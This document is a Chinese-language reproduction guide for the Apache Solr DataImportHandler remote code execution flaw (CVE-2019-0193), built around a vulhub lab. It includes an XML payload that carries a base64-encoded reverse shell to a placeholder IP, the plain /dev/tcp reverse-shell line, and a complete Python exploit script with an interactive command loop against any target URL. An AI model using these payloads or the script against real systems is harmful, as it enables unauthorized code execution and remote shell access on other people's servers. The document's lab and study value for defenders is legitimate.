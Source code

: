 # Apache-Solr-远程执行漏洞-CVE-2019-0193

## 漏洞描述 

2019 年 08 月 01 日，Apache Solr 官方发布预警，Apache Solr DataImport 功能 在开启 Debug 模式时，可以接收来自请求的”dataConfig”参数，这个参数的功能与`data-config.xml` 一样，不过是在开启 Debug 模式时方便通过此参数进行调试，并且 Debug 模式的开启是通过参数传入的。在 `dataConfig` 参数中可以包含 script 恶意脚本导致远程代码执行。

## 影响版本

> [!NOTE]
>
> Apache Solr < 8.2.0

## 环境搭建

```shell
https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2019-0193
docker-compose build
docker-compose up -d

# 创建一个solr核心test
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```

访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可

![](Apache-Solr-远程执行漏洞-CVE-2019-0193.assets/1627363475033303.jpg)

## 漏洞复现

点击刚刚创建的test进入调试

![](Apache-Solr-远程执行漏洞-CVE-2019-0193.assets/1627363475374851.jpg)

将下面的POC代码填入 Debug-Mode 中

```xml
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```



注意 POC 执行的代码中的base64字符串的位置请置换成自己的ip地址并base64加密填入

>[!NOTE]
>
>bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1  
>
>直接如上写入反弹无反应，不稳定，需要base64加密写才能反弹一个shell

点击EXecute执行代码

![](Apache-Solr-远程执行漏洞-CVE-2019-0193.assets/1627363475676477.jpg)

![](Apache-Solr-远程执行漏洞-CVE-2019-0193.assets/1627363475829417.jpg)

成功反弹shell

## 漏洞利用POC

> [!NOTE]
>
> POC不支持反弹shell，如需反弹shell，请按如上步骤反弹shell

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import sys
import json

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Solr < 8.2.0            \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2019-0193.py       \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983  \033[0m')
    print('+  \033[36mCmd    >>> whoami(命令执行)              \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
    try:
        response = requests.request("GET", url=core_url, timeout=10)
        core_name = list(json.loads(response.text)["status"])[0]
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
        return core_name
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, core_name):
    mode_url = target_url + "/solr/" + core_name + "/admin/mbeans?cat=QUERY&wt=json"
    response = requests.request("GET", url=mode_url, timeout=20)
    mode = dict(dict(list(json.loads(response.text)["solr-mbeans"])[1])['/dataimport'])['class']
    if "org.apache.solr.handler.dataimport.DataImportHandler" in mode:
        print("\033[32m[o] 目标Url,Dataimport模块开启\033[0m")
    else:
        print("\033[31m[x] 目标Url,Dataimport模块未开启\033[0m")
        sys.exit(0)

def POC_3(target_url, core_name, cmd):
    vuln_url = target_url + "/solr/" + core_name + "/dataimport"

    headers = {
        'Host': target_url,
        'User-Agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        'Accept': "application/json, text/plain, */*",
        'Accept-Language': "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        'Accept-Encoding': "zip, deflate",
        'Referer': "" + target_url + "/solr/",
        'Content-type': "application/x-www-form-urlencoded",
        'X-Requested-With': "XMLHttpRequest",
        'Content-Length': "1007",
        'Connection': "close"
    }

    payload = """
        command=full-import&verbose=false&clean=false&commit=false&debug=true&core=test&name=dataimport&dataConfig=
        <dataConfig>
          <dataSource type="URLDataSource"/>
          <script><![CDATA[
                  function poc(row){
         var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("%s").getInputStream()));
        var result = [];
        while(true) {
        var oneline = bufReader.readLine();
        result.push( oneline );
        if(!oneline) break;
        }
        row.put("title",result.join("\\n\\r"));
        return row;
        }
          ]]></script>
                <document>
                     <entity name="entity1"
                             url="https://raw.githubusercontent.com/1135/solr_exploit/master/URLDataSource/demo.xml"
                             processor="XPathEntityProcessor"
                             forEach="/RDF/item"
                             transformer="script:poc">
                                <field column="title" xpath="/RDF/item/title" />
                     </entity>
                </document>
        </dataConfig>
        """ % cmd

    response = requests.request("POST", url=vuln_url, data=payload, headers=headers, timeout=30)
    try:
        get_message = list(json.loads(response.text)["documents"])[0]
        message = dict(get_message)['title'][0]
        print("\033[32m[o] 漏洞成功利用,响应为\n \033[0m", message)
    except:
        print("\033[31m[x] 代码执行失败 \033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    core_name = POC_1(target_url)
    POC_2(target_url, core_name)

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            exit(0)
        else:
            POC_3(target_url, core_name, cmd)
```

![](Apache-Solr-远程执行漏洞-CVE-2019-0193.assets/16273634763593118.jpg)

## 参考文章

[apache solr远程代码执行漏洞(cve-2019-0193)](https://blog.csdn.net/whatday/article/details/106959989?utm_medium=distribute.pc_relevant.none-task-blog-BlogCommendFromBaidu-4.channel_param&depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromBaidu-4.channel_param)